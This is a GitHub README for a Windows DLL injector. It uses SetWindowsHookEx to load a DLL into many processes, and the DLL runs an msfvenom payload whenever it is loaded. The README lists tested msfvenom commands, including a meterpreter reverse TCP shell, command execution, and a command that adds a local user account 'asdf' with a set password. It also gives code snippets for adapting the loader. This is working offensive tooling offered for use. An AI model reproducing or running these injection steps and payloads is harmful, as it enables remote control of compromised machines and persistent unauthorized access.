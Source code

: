 # Global-SetWindowsHookEx-Injector
main.cpp: Loads test.dll into a subset of processes that have user32.dll loaded </br> 
dllmain.cpp: Launches a thread that launches an msfvenom payload whenever it is imported into a process </br>
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"` </br>
`msfvenom -f c -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444  -o file.txt` </br>
`msfvenom -f c -p windows/x64/exec CMD=calc.exe EXITFUNC=thread` </br>
`msfvenom -f c windows/x64/exec CMD="net user asdf Qwerty123 /add"`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs

